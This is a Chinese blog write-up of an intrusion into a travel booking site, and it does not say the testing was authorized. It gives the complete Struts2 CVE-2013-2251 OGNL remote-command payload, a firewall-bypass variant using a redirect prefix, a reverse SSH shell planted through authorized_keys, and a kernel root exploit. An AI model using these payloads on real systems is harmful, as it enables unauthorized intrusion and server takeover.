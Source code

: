 #  一次获取RCE以及提权到root权限的渗透过程   
 迪哥讲事   2025-05-16 12:30  
  
本文是关于  
Apache struts2 CVE-2013-2251  
是由于导致执行远程命令的影响而被高度利用的漏洞。简而言之，  
 通过操纵以“action:”/”redirect:”/”redirectAction:”为前缀的参数引入的漏洞，允许在使用<Struts 2.3.15作为框架的Java Web应用程序中执行远程命令。  
  
   
  
现在，当这个漏洞以病毒式疯狂传播时，主要的应用防火墙厂商开始更新它们的规则引擎和检测技术，以防止它发生。 但是作者不仅能够绕过防火墙并获得远程代码执行，还能够通过利用内核漏洞来提权到以root用户身份获取服务器权限。  
  
   
  
当作者在测试旅行预订网站时，是  
   
因为为了找到应用程序是否运行在易受攻击的Apache Struts框架上的漏洞利用，只需检查以下易受攻击的参数  
-  
“action, redirect,redirectAction”和正确的有效攻击负载，通过  
google  
找到利用poc的博客（必须构建一个  
OGNL  
表达式），  
http://blog.opensecurityresearch.com/2014/02/attacking-struts-with-cve-2013-2251.html  
 ，下面是用于运行命令  
“ifconfig”  
的有效负载。  
<table><tbody><tr style="border-radius: 0px !important;background: none !important;border-width: 0px !important;border-style: initial !important;border-color: initial !important;inset: auto !important;float: none !important;height: auto !important;line-height: 1.1em !important;outline: 0px !important;overflow: visible !important;vertical-align: baseline !important;width: auto !important;box-sizing: content-box !important;min-height: auto !important;"><td data-colwidth="35" width="35" style="border-collapse: collapse;padding: 0px !important;border-width: 0px !important;border-style: initial !important;border-color: initial !important;min-width: auto !important;border-radius: 0px !important;background: none !important;inset: auto !important;float: none !important;line-height: 1.1em !important;outline: 0px !important;overflow: visible !important;vertical-align: baseline !important;box-sizing: content-box !important;min-height: auto !important;color: rgb(175, 175, 175) !important;"><p><span leaf="">1</span></p></td><td data-colwidth="NaN" width="NaN" style="border-collapse: collapse;padding: 0px !important;border-width: 0px !important;border-style: initial !important;border-color: initial !important;min-width: auto !important;border-radius: 0px !important;background: none !important;inset: auto !important;float: none !important;line-height: 1.1em !important;outline: 0px !important;overflow: visible !important;vertical-align: baseline !important;box-sizing: content-box !important;min-height: auto !important;"><p><code style="font-family: Consolas, &#34;Bitstream Vera Sans Mono&#34;, &#34;Courier New&#34;, Courier, monospace !important;border-radius: 0px !important;background: none !important;border-width: 0px !important;border-style: initial !important;border-color: initial !important;inset: auto !important;float: none !important;height: auto !important;line-height: 1.8em !important;outline: 0px !important;overflow: visible !important;vertical-align: baseline !important;width: auto !important;box-sizing: content-box !important;min-height: auto !important;color: rgb(0, 0, 0) !important;"><span leaf="">redirect:${#a=(</span></code><code style="font-family: Consolas, &#34;Bitstream Vera Sans Mono&#34;, &#34;Courier New&#34;, Courier, monospace !important;border-radius: 0px !important;background: none !important;border-width: 0px !important;border-style: initial !important;border-color: initial !important;inset: auto !important;float: none !important;height: auto !important;line-height: 1.8em !important;outline: 0px !important;overflow: visible !important;vertical-align: baseline !important;width: auto !important;box-sizing: content-box !important;min-height: auto !important;color: rgb(0, 0, 255) !important;"><span leaf="">new</span></code><span leaf=""> </span><code style="font-family: Consolas, &#34;Bitstream Vera Sans Mono&#34;, &#34;Courier New&#34;, Courier, monospace !important;border-radius: 0px !important;background: none !important;border-width: 0px !important;border-style: initial !important;border-color: initial !important;inset: auto !important;float: none !important;height: auto !important;line-height: 1.8em !important;outline: 0px !important;overflow: visible !important;vertical-align: baseline !important;width: auto !important;box-sizing: content-box !important;min-height: auto !important;color: rgb(0, 0, 0) !important;"><span leaf="">java.lang.ProcessBuilder(</span></code><code style="font-family: Consolas, &#34;Bitstream Vera Sans Mono&#34;, &#34;Courier New&#34;, Courier, monospace !important;border-radius: 0px !important;background: none !important;border-width: 0px !important;border-style: initial !important;border-color: initial !important;inset: auto !important;float: none !important;height: auto !important;line-height: 1.8em !important;outline: 0px !important;overflow: visible !important;vertical-align: baseline !important;width: auto !important;box-sizing: content-box !important;min-height: auto !important;color: rgb(0, 0, 255) !important;"><span leaf="">new</span></code><span leaf=""> </span><code style="font-family: Consolas, &#34;Bitstream Vera Sans Mono&#34;, &#34;Courier New&#34;, Courier, monospace !important;border-radius: 0px !important;background: none !important;border-width: 0px !important;border-style: initial !important;border-color: initial !important;inset: auto !important;float: none !important;height: auto !important;line-height: 1.8em !important;outline: 0px !important;overflow: visible !important;vertical-align: baseline !important;width: auto !important;box-sizing: content-box !important;min-height: auto !important;color: rgb(0, 0, 0) !important;"><span leaf="">java.lang.String[]{‘ ifconfig’})).start(),#b=#a.getInputStream(),#c=</span></code><code style="font-family: Consolas, &#34;Bitstream Vera Sans Mono&#34;, &#34;Courier New&#34;, Courier, monospace !important;border-radius: 0px !important;background: none !important;border-width: 0px !important;border-style: initial !important;border-color: initial !important;inset: auto !important;float: none !important;height: auto !important;line-height: 1.8em !important;outline: 0px !important;overflow: visible !important;vertical-align: baseline !important;width: auto !important;box-sizing: content-box !important;min-height: auto !important;color: rgb(0, 0, 255) !important;"><span leaf="">new</span></code><span leaf=""> </span><code style="font-family: Consolas, &#34;Bitstream Vera Sans Mono&#34;, &#34;Courier New&#34;, Courier, monospace !important;border-radius: 0px !important;background: none !important;border-width: 0px !important;border-style: initial !important;border-color: initial !important;inset: auto !important;float: none !important;height: auto !important;line-height: 1.8em !important;outline: 0px !important;overflow: visible !important;vertical-align: baseline !important;width: auto !important;box-sizing: content-box !important;min-height: auto !important;color: rgb(0, 0, 0) !important;"><span leaf="">java.io.InputStreamReader(#b),#d=</span></code><code style="font-family: Consolas, &#34;Bitstream Vera Sans Mono&#34;, &#34;Courier New&#34;, Courier, monospace !important;border-radius: 0px !important;background: none !important;border-width: 0px !important;border-style: initial !important;border-color: initial !important;inset: auto !important;float: none !important;height: auto !important;line-height: 1.8em !important;outline: 0px !important;overflow: visible !important;vertical-align: baseline !important;width: auto !important;box-sizing: content-box !important;min-height: auto !important;color: rgb(0, 0, 255) !important;"><span leaf="">new</span></code><span leaf=""> </span><code style="font-family: Consolas, &#34;Bitstream Vera Sans Mono&#34;, &#34;Courier New&#34;, Courier, monospace !important;border-radius: 0px !important;background: none !important;border-width: 0px !important;border-style: initial !important;border-color: initial !important;inset: auto !important;float: none !important;height: auto !important;line-height: 1.8em !important;outline: 0px !important;overflow: visible !important;vertical-align: baseline !important;width: auto !important;box-sizing: content-box !important;min-height: auto !important;color: rgb(0, 0, 0) !important;"><span leaf="">java.io.BufferedReader(#c),#e=</span></code><code style="font-family: Consolas, &#34;Bitstream Vera Sans Mono&#34;, &#34;Courier New&#34;, Courier, monospace !important;border-radius: 0px !important;background: none !important;border-width: 0px !important;border-style: initial !important;border-color: initial !important;inset: auto !important;float: none !important;height: auto !important;line-height: 1.8em !important;outline: 0px !important;overflow: visible !important;vertical-align: baseline !important;width: auto !important;box-sizing: content-box !important;min-height: auto !important;color: rgb(0, 0, 255) !important;"><span leaf="">new</span></code><span leaf=""> </span><code style="font-family: Consolas, &#34;Bitstream Vera Sans Mono&#34;, &#34;Courier New&#34;, Courier, monospace !important;border-radius: 0px !important;background: none !important;border-width: 0px !important;border-style: initial !important;border-color: initial !important;inset: auto !important;float: none !important;height: auto !important;line-height: 1.8em !important;outline: 0px !important;overflow: visible !important;vertical-align: baseline !important;width: auto !important;box-sizing: content-box !important;min-height: auto !important;color: rgb(0, 0, 255) !important;"><span leaf="">char</span></code><code style="font-family: Consolas, &#34;Bitstream Vera Sans Mono&#34;, &#34;Courier New&#34;, Courier, monospace !important;border-radius: 0px !important;background: none !important;border-width: 0px !important;border-style: initial !important;border-color: initial !important;inset: auto !important;float: none !important;height: auto !important;line-height: 1.8em !important;outline: 0px !important;overflow: visible !important;vertical-align: baseline !important;width: auto !important;box-sizing: content-box !important;min-height: auto !important;color: rgb(0, 0, 0) !important;"><span leaf="">[50000],#d.read(#e),#matt=#context.</span></code><code style="font-family: Consolas, &#34;Bitstream Vera Sans Mono&#34;, &#34;Courier New&#34;, Courier, monospace !important;border-radius: 0px !important;background: none !important;border-width: 0px !important;border-style: initial !important;border-color: initial !important;inset: auto !important;float: none !important;height: auto !important;line-height: 1.8em !important;outline: 0px !important;overflow: visible !important;vertical-align: baseline !important;width: auto !important;box-sizing: content-box !important;min-height: auto !important;color: rgb(0, 0, 255) !important;"><span leaf="">get</span></code><code style="font-family: Consolas, &#34;Bitstream Vera Sans Mono&#34;, &#34;Courier New&#34;, Courier, monospace !important;border-radius: 0px !important;background: none !important;border-width: 0px !important;border-style: initial !important;border-color: initial !important;inset: auto !important;float: none !important;height: auto !important;line-height: 1.8em !important;outline: 0px !important;overflow: visible !important;vertical-align: baseline !important;width: auto !important;box-sizing: content-box !important;min-height: auto !important;color: rgb(0, 0, 0) !important;"><span leaf="">(‘com.opensymphony.xwork2.dispatcher.HttpServletResponse’),#matt.getWriter().println(#e),#matt.getWriter().flush(),#matt.getWriter().close()}</span></code></p></td></tr></tbody></table>  
![](https://mmbiz.qpic.cn/mmbiz_jpg/MxP6iaibG3fZOjnemvrjBwAu9jlMMdnW1wkJqjMTzCUwMRdibicee5UB74OE8iaoiaR8adxYfc9erpD7zLEHw7mU9xiag/640?wx_fmt=jpeg "")  
  
但正如预料的那样，它被应用防火墙阻止了，并将重定向到一个  
bot  
机器页面 。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/MxP6iaibG3fZOjnemvrjBwAu9jlMMdnW1wsw44oia9viaUvC40FknIzicw3D7pQDnXtLKLVkZMbJjgpSpqOfpP9hrbg/640?wx_fmt=jpeg "")  
  
当这样的事情发生在作者身上时，正如前面指出的那样，知道哪些参数易受攻击，其中之一是在上述请求中使用的  
“redirect”  
参数。   
“redirect  
”，是的，你觉得它是正确的，让我们尝试在这里重定向，只是把它重定向到http：//www.goal.com  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/MxP6iaibG3fZOjnemvrjBwAu9jlMMdnW1wr4VBmZ1aPHJXawrlHcx3VcKnwzBMl9TvPne8rSaJPX0dByMMuIboUA/640?wx_fmt=jpeg "")  
  
正如你所看到的那样，作者得到了  
302  
重定向到位置http://www.goal.com ，所以之前的  
ifconfig  
命令有效载荷被阻止了，这个重定向方法，给了作者一个绕过防火墙的思路，所以，将上面的有效负载进行修改如下：  
<table><tbody><tr style="border-radius: 0px !important;background: none !important;border-width: 0px !important;border-style: initial !important;border-color: initial !important;inset: auto !important;float: none !important;height: auto !important;line-height: 1.1em !important;outline: 0px !important;overflow: visible !important;vertical-align: baseline !important;width: auto !important;box-sizing: content-box !important;min-height: auto !important;"><td data-colwidth="35" width="35" style="border-collapse: collapse;padding: 0px !important;border-width: 0px !important;border-style: initial !important;border-color: initial !important;min-width: auto !important;border-radius: 0px !important;background: none !important;inset: auto !important;float: none !important;line-height: 1.1em !important;outline: 0px !important;overflow: visible !important;vertical-align: baseline !important;box-sizing: content-box !important;min-height: auto !important;color: rgb(175, 175, 175) !important;"><p><span leaf="">1</span></p></td><td data-colwidth="NaN" width="NaN" style="border-collapse: collapse;padding: 0px !important;border-width: 0px !important;border-style: initial !important;border-color: initial !important;min-width: auto !important;border-radius: 0px !important;background: none !important;inset: auto !important;float: none !important;line-height: 1.1em !important;outline: 0px !important;overflow: visible !important;vertical-align: baseline !important;box-sizing: content-box !important;min-height: auto !important;"><p><code style="font-family: Consolas, &#34;Bitstream Vera Sans Mono&#34;, &#34;Courier New&#34;, Courier, monospace !important;border-radius: 0px !important;background: none !important;border-width: 0px !important;border-style: initial !important;border-color: initial !important;inset: auto !important;float: none !important;height: auto !important;line-height: 1.8em !important;outline: 0px !important;overflow: visible !important;vertical-align: baseline !important;width: auto !important;box-sizing: content-box !important;min-height: auto !important;color: rgb(0, 0, 0) !important;"><span leaf="">redirect:http:</span></code><code style="font-family: Consolas, &#34;Bitstream Vera Sans Mono&#34;, &#34;Courier New&#34;, Courier, monospace !important;border-radius: 0px !important;background: none !important;border-width: 0px !important;border-style: initial !important;border-color: initial !important;inset: auto !important;float: none !important;height: auto !important;line-height: 1.8em !important;outline: 0px !important;overflow: visible !important;vertical-align: baseline !important;width: auto !important;box-sizing: content-box !important;min-height: auto !important;color: rgb(0, 130, 0) !important;"><span leaf="">//www.goal.com/${#a=(new java.lang.ProcessBuilder(new java.lang.String[]{‘ ifconfig’})).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#matt=#context.get(‘com.opensymphony.xwork2.dispatcher.HttpServletResponse’),#matt.getWriter().println(#e),#matt.getWriter().flush(),#matt.getWriter().close()}</span></code></p></td></tr></tbody></table>  
并发起请求：  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/MxP6iaibG3fZOjnemvrjBwAu9jlMMdnW1w4FqVSYMjVj1tAj4lMZW9aA8xGNXkW6CzzlWvVaJicOicia63hxYkwOWicA/640?wx_fmt=jpeg "")  
  
下面显示了能够绕过防火墙并获得运行的  
“ifconfig”  
命令输出信息：  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/MxP6iaibG3fZOjnemvrjBwAu9jlMMdnW1wZkCBthVaQKPChTc6YCBKrNKebUeEPia47KqUtrUNayZfIVLgUD0gXZw/640?wx_fmt=jpeg "")  
  
下一个目标是获得服务器的远程  
shell  
，作者使用反向SSH隧道和公钥认证来尝试并获取  
shell  
，它允许SSH用户在不输入密码的情况下登录。  
   
因此，作者必须将攻击者服务器的ssh公钥放入受害服务器的授权路径下~/.ssh/authorized_keys，为了获取授权身份，并且获取为反向  
ssh  
隧道，还必须添加受害ssh服务器的id_rsa.pub公钥。  
   
为了阐述上面2个关键词的概念并理解  
公钥认证  
的概念  
-----id_rsa.pub  
是您添加到其他主机的authorized_keys文件以允许您以该用户身份登录的公钥。  
 authorized_keys  
是允许登录到特定服务器上的特定帐户的公钥列表。  
  
第一步  
 -   
使用RCE查找受害服务器的id_rsa.pub文件位置  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/MxP6iaibG3fZOjnemvrjBwAu9jlMMdnW1wJSuKQp25A2oENuQnbeffwX0ZmOMRyf7iciaTs5tOhCiaUee0ibXQBiaPg4Q/640?wx_fmt=jpeg "")  
  
第二步  
 -   
将authorized_keys从受害者服务器复制到攻击者服务器上  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/MxP6iaibG3fZOjnemvrjBwAu9jlMMdnW1wccyhOibpNuCCichs9Pc0XWEgR3nEoibNezZKIN31KXpNDH4WMWqyr9bJA/640?wx_fmt=jpeg "")  
  
第三步  
 -   
将修改后的authorized_keys从攻击者服务器复制回来，通过读取  
id_rsa.pub  
获得shell.  
  
最后一步  
 - SSH  
在攻击者机器上使用反向隧道，所以运行了如下命令行：  
  
   
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/MxP6iaibG3fZOjnemvrjBwAu9jlMMdnW1w8VBkELQkicGMTuib682H3icvosTWSOLSaMg3q0nWqUqCicj4aM2TFboO9w/640?wx_fmt=jpeg "")  
  
   
  
能够获得服务器的远程  
shell,  
但没以root登陆的权限，这就意味着只有有限的权利访问文件和命令执行。  
   
现在为了获取以root用户身份登录的权限，作者首先查看当前受害机器上运行的内核版本是什么：  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/MxP6iaibG3fZOjnemvrjBwAu9jlMMdnW1w4wmyibib7MZE6E2uYRAO32GDV9o2grBJwWIibN5aIXiaNFUkfpnhZfA3og/640?wx_fmt=jpeg "")  
  
因此发现了内核版本是  
2.6.32  
，通过google查找到利用的  
CVE  
，该CVE可  
  
容易进行账户提权和漏洞利用  
----https  
： //github.com/realtalk/cve-2013-2094 ，最终够获得root用户权限。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/MxP6iaibG3fZOjnemvrjBwAu9jlMMdnW1wUbud2HmYCQp1Vy2aAicUvvQibmJQTwiaJ8UVNCoicj1mqTNCFZ97h6ddmg/640?wx_fmt=jpeg "")  
  
这就是如何通过利用  
apache strut 2  
漏洞和内核版本漏洞利用结合来获取以root用户服务器的远程  
shell  
。  
  
  
## 往期回顾  
# 如何绕过签名校验  
#   
  
[一款bp神器](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247495880&idx=1&sn=65d42fbff5e198509e55072674ac5283&chksm=e8a5faabdfd273bd55df8f7db3d644d3102d7382020234741e37ca29e963eace13dd17fcabdd&scene=21#wechat_redirect)  
  
  
[挖掘有回显ssrf的隐藏payload](https://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247496898&idx=1&sn=b6088e20a8b4fc9fbd887b900d8c5247&scene=21#wechat_redirect)  
  
  
[ssrf绕过新思路](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247495841&idx=1&sn=bbf477afa30391b8072d23469645d026&chksm=e8a5fac2dfd273d42344f18c7c6f0f7a158cca94041c4c4db330c3adf2d1f77f062dcaf6c5e0&scene=21#wechat_redirect)  
  
  
[一个辅助测试ssrf的工具](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247496380&idx=1&sn=78c0c4c67821f5ecbe4f3947b567eeec&chksm=e8a5f8dfdfd271c935aeb4444ea7e928c55cb4c823c51f1067f267699d71a1aad086cf203b99&scene=21#wechat_redirect)  
  
  
[dom-xss精选文章](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247488819&idx=1&sn=5141f88f3e70b9c97e63a4b68689bf6e&chksm=e8a61f50dfd1964692f93412f122087ac160b743b4532ee0c1e42a83039de62825ebbd066a1e&scene=21#wechat_redirect)  
  
  
[年度精选文章](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247487187&idx=1&sn=622438ee6492e4c639ebd8500384ab2f&chksm=e8a604b0dfd18da6c459b4705abd520cc2259a607dd9306915d845c1965224cc117207fc6236&scene=21#wechat_redirect)  
  
  
[Nuclei权威指南-如何躺赚](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247487122&idx=1&sn=32459310408d126aa43240673b8b0846&chksm=e8a604f1dfd18de737769dd512ad4063a3da328117b8a98c4ca9bc5b48af4dcfa397c667f4e3&scene=21#wechat_redirect)  
  
  
[漏洞赏金猎人系列-如何测试设置功能IV](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247486973&idx=1&sn=6ec419db11ff93d30aa2fbc04d8dbab6&chksm=e8a6079edfd18e88f6236e237837ee0d1101489d52f2abb28532162e2937ec4612f1be52a88f&scene=21#wechat_redirect)  
  
  
[漏洞赏金猎人系列-如何测试注册功能以及相关Tips](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247486764&idx=1&sn=9f78d4c937675d76fb94de20effdeb78&chksm=e8a6074fdfd18e59126990bc3fcae300cdac492b374ad3962926092aa0074c3ee0945a31aa8a&scene=21#wechat_redirect)  
  
[‍](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247486764&idx=1&sn=9f78d4c937675d76fb94de20effdeb78&chksm=e8a6074fdfd18e59126990bc3fcae300cdac492b374ad3962926092aa0074c3ee0945a31aa8a&scene=21#wechat_redirect)  
  
  
如果你是一个长期主义者，欢迎加入我的知识星球，我们一起往前走，每日都会更新，精细化运营，微信识别二维码付费即可加入，如不满意，72 小时内可在 App 内无条件自助退款  
  
![](https://mmbiz.qpic.cn/mmbiz_png/YmmVSe19Qj5EMr3X76qdKBrhIIkBlVVyuiaiasseFZ9LqtibyKFk7gXvgTU2C2yEwKLaaqfX0DL3eoH6gTcNLJvDQ/640?wx_fmt=png&from=appmsg "")  
  
  
  
